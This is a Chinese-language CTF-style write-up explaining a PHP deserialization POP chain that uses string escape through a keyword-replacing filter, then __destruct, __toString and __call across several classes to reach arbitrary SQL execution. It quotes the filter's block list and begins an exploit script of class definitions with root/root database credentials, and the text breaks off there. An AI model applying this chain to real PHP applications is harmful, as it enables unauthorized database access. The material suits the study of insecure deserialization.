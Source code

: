 因为一些内外因素，导致自己这个链子看了好久。。烦

> **pop链**
>
> * 利用update.php中的`$users->update();`来进到**lib.php**中的`update`
>
> * `update`中将函数`getNewinfo()`中得到的`Info`类来反序列化，此时**age和nickname**是可控的
>
> * `getNewinfo()`调用了`safe`，可以进行字符串逃逸
>
>   ```php
>   function safe($parm){
>       $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
>       return str_replace($array,'hacker',$parm);
>   }
>   ```
>   
>  * 利用字符串逃逸和反序列化可以得到一个外层是`Info`类，内层是任意的类，所以此时几乎只能由`__destruct`入手，不能调用其它函数
>
>  * 在`UpdateHelper`类中的`__destruct`函数用到了`echo $this->sql;`，正好可以进入到`User`类的`__toString`
>
>  * `User`的`__toString`中`$this->nickname->update($this->age);`可以调用到`Info`的`__call`函数`echo $this->CtrlCase->login($argument[0]);`，从而调用`dbCtrl`的`login()`
>
>  * 此时便可执行任意**sql**语句，逃逸成功
>

只需要将字符串逃逸出的那一部分构造出来，然后加字符串补齐就好了

下面用到的链子和上面的有一点点区别，上面是用

> 在`UpdateHelper`类中的`__destruct`函数用到了`echo $this->sql;`，正好可以进入到`User`类的`__toString`

而这里是用`User`的`__destruct`中的`return file_get_contents($this->nickname);`

这里也同样可以进入到`User`的`__toString`

```php
<?php

class User
{
    public $id;
    public $age=null;
    public $nickname=null;

}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;

}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;

}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
```